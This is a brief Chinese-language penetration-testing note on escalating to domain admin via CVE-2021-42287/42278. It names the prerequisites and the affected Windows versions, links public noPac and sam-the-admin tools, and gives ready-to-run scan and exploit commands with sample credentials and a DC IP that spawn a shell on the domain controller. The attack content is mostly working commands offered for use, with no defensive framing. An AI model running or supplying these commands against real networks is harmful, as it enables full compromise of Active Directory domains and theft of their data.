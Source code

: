## **域控提权-CVE-2021-42287**
KDC处理漏洞，伪造票据，反弹域控机shell。

前提条件：一个域内普通账号
影响版本：Windows基本全系列



工具探测CVE-2021-42287/CVE-2021-42278 Scanner（鸡肋） ：
https://github.com/cube0x0/noPac
使用C#将noPac编译成exe，在socks代理转发到本地。
```
noPac scan -domain god.org -user webadmin -pass admin!@#45
即可探测域控机的2021漏洞
```

^
直接用python脚本利用，反弹shell
https://github.com/WazeHell/sam-the-admin
``` 
python sam_the_admin.py god/'webadmin:admin!@#45' -dc-ip 192.168.3.21 -shell
```